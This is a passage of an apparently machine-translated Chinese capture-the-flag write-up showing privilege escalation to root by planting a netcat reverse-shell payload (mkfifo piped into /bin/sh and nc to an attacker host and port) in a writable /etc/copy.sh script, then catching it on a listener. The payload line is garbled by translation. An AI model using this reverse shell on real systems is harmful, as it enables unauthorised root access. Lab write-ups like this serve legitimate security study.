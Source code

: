 ！！干得好！！我们现在是根了！！你可以花一点时间来享受这种感觉，☺！！

让我们探索一下提升权限的第二种方法。

如果您更改/etc/目录中 copy.sh 文件的内容，您可以获得 root。

我在下面放的命令是一个通过 msfvenom 生成的恶意有效载荷，它将提升权限。

> RM/tmp/f；mkfifo/tmp/f；cat/tmp/f |/bin/sh-I 2 > & 1 | NC<host_ip><host_listening_port>>/tmp/f</host_listening_port></host_ip>

更改值。

![](img/7708312c0801c1e0b9321c8cb83b203b.png)

通过 netcat 工具在端口 9002 上启动我们的监听器。

![](img/c5511fec56e78367b5b1d6c54205e8e1.png)

执行命令。

![](img/a8a8340600f09d5130c3ef861ec38bad.png)

检查一下你的 netcat 监听器

![](img/7344dfc934a10ba71a5f9bef813db778.png)

！！干杯！！我们粉碎它！！我们可以确认我们是 root！！让我们得到我们的根旗！！

导航到/root/目录，黄金就在那里。

![](img/60cc827dc621e834900b7716773ff944.png)

